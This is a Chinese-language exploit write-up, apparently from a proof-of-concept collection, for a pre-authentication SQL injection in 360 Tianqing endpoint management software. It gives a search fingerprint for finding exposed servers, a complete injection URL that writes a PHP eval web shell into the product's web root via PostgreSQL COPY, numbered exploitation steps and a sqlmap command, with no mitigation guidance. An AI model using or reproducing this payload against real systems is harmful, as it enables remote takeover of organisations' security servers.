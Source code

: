 # 360天擎 rptsvcsyncpoint 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

```
天擎
```

## 网络测绘

```
title="360新天擎"
```

## 漏洞复现

```plain
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```



使用命令

```plain
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```



![image-20220209200650958](./images/202202092006296.png)

